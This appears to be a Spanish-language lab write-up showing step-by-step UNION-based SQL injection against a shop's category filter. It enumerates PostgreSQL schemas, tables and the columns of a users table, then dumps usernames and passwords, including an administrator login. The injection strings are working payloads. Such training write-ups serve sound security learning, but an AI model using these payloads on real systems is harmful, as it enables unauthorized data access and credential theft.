


En este laboratorio practicaremos la enumeración de los datos de una tabla



Luego de obtener el numero de columnas validos en la consulta podemos enumerar la base de datos que se tiene en el sitio web.

```c
Tech+gifts' union select null,schema_name from information_schema.schemata--
```

Las base de datos que encontramos son:

```c
information_schema
public
pg_catalog
```

Enumeraremos las tablas de la base de datos `public`

```c
Tech+gifts' union select null,concat(table_name) from information_schema.tables where table_schema='public'--
```

Encontramos las tablas de `users` 

```c
users
products
```

Luego enumeramos las columnas de la tabla `users`

```c
Tech gifts' union select null,concat(column_name) from information_schema.columns where table_schema='public' and table_name='users'--
```

En esta columna encontraremos las siguientes columnas:

```c
email
password
username
```

Observamos que tenemos la columna de `username` y `password`, de las cuales ingresaremos la siguiente consulta para obtener la data que se almacena en ellos.

```c
Tech gifts' union select null,concat(username, ' : ', password) from users--
```

Obtenemos credenciales que probaremos en el panel de login.

```c
wiener : 1sf8vtlhp2vh1qt10g0o
carlos : v8p0o0mdvt4b00dwvgce
administrator : oyjcs58lai4axcujifr8
```


